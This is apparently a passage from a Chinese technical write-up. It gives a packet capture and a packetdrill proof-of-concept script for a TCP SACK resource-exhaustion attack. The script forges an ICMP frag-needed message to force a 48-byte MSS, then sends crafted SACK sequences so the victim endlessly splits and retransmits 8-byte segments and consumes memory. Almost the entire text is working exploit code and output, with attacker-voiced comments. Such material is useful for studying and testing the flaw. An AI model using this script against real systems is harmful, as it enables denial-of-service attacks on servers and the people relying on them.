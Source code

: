 ```
08:22:21.318736 IP 192.168.33.130.webcache > 192.0.2.1.58328: Flags [.], seq 889:897, ack 11, win 252, options [nop,nop,TS val 3191361 ecr 100,nop,nop,sack 3 {61:71}{41:51}{21:31}], length 8: HTTP
08:23:12.719446 IP 192.168.33.130.webcache > 192.0.2.1.58328: Flags [.], seq 37:45, ack 11, win 252, options [nop,nop,TS val 3242762 ecr 100,nop,nop,sack 3 {61:71}{41:51}{21:31}], length 8: HTTP
# … 继续下去，所有包都将会被切割成8，算下内存

```
 以上的抓包来自于下面的packetdrill脚本：

 
```
// 下面这个不知道为什么没有失效...
+0 `ip route replace 192.0.2.0/24 via 192.168.0.1 dev tun0 cwnd 100`
+0   socket(..., SOCK_STREAM, IPPROTO_TCP) = 3
+0  setsockopt(3, SOL_SOCKET, SO_REUSEADDR, [1], 4) = 0

+0  bind(3, ..., ...) = 0
+0  listen(3, 1) = 0

// 初始mss要大，这样积累数据比较快，注意该EXP不需要分散聚集IO写
+0  < S 0:0(0) win 32792 <mss 1460,sackOK,TS val 100 ecr 0,nop,wscale 7>
+0  > S. 0:0(0) ack 1 <...>

+0 < . 1:1(0) ack 1 win 257
+0  accept(3, ..., ...) = 4

// 写入足够的数据
+0  write(4, ..., 14480) = 14480

// 攻击者发送空洞数据，诱导被攻击侧发送3段sack，占据mss空间
+0 < . 1:11(10) ack 1 win 257
+0 < . 21:31(10) ack 1 win 257
+0 < . 41:51(10) ack 1 win 257
+0 < . 61:71(10) ack 1 win 257

// 以100为mtu构造ICMP，但实际上会被归整到552，并非就是100，更不会是88，怎么办呢？
+0 < icmp unreachable frag_needed mtu 100 [1:1461(1460)]

// 根据rto估计，模拟几轮退避，然后TCP会二分减少mtu以探测新的mtu。
// 当mss退避到48时，稍微推进una 8字节那么大，表示48的mss正合适。
// 注意，此时48里面包括26字节的3段sack，10字节的时间戳，4字节的对齐nop，剩余8字节raw data
+53.1 < . 1:1(0) ack 37 win 257 <sack 73:217,nop,nop>

// 此时的mss已经成了48(其实是32，但是tcp要求最小是48)
+0 < . 71:71(0) ack 37 win 257 <sack 73:217,nop,nop>

// 往后就爽了：
// 1. 被攻击侧不断切割并重传8字节skb，分配了内存
// 2. 攻击者不断sack重传的8字节skb，但就是una留洞，以清空inflight
// 3. 被攻击侧发送数据被sack，cwnd空间被清空，继续重传。
// gg
+1.65 < . 71:71(0) ack 37 win 257 <sack 57:501,nop,nop>
+0.65 < . 71:71(0) ack 37 win 257 <sack 45:513,nop,nop>
+0.2 < . 71:71(0) ack 37 win 257 <sack 45:537,nop,nop>
+0.2 < . 71:71(0) ack 37 win 257 <sack 45:577,nop,nop>
+0.2 < . 71:71(0) ack 37 win 257 <sack 45:617,nop,nop>
+0.2 < . 71:71(0) ack 37 win 257 <sack 45:657,nop,nop>
+0.2 < . 71:71(0) ack 37 win 257 <sack 45:697,nop,nop>
+0.2 < . 71:71(0) ack 37 win 257 <sack 45:737,nop,nop>
+0.2 < . 71:71(0) ack 37 win 257 <sack 45:777,nop,nop>
+0.2 < . 71:71(0) ack 37 win 257 <sack 45:817,nop,nop>
+0.2 < . 71:71(0) ack 37 win 257 <sack 45:857,nop,nop>
...

```